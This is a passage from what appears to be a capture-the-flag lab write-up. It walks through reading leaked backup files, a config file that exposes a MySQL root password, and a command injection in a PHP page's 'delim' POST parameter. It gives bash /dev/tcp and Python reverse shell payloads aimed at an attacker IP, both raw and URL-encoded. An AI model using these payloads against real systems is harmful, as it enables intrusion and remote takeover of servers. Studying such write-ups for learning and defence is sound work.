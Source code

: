 And then use it login as a user

### Get the [log data](./site/out.log) from [file_logs.php](./site/backup/file_logs.php)

### Get [backup](./site/backup) from [files.php](./site/backup/files.php)

### [Config.php](./site/backup/config.php) View

MySQL account

```
username: root
password: mySQL_p@ssw0rd!:)
```

### [Logs.php](./site/backup/logs.php) View

=> Found it use python as an output process, not pure php

=> Inject code by `$_POST['delim']` in exec funciton 

### Use intercept to append inject code before POST it

- Append target is `delim=comma`

- Make sure convert to URL-encode format

#### The [bash approach](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

*Origin*

> delim=comma&/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.46/*port* 0>&1'

*Convert*

> delim=comma%26%2Fbin%2Fbash%20-c%20%27bash%20-i%20%26%3E%20%2Fdev%2Ftcp%2F10.10.14.46%2F*port*%200%3E%261%27

#### The [python approach](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

*Origin*

> delim=comma&python -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.46",*port*));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

*Convert*

> delim=comma%26python%20-c%20%27import%20socket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.10.14.46%22%2C*port*%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27
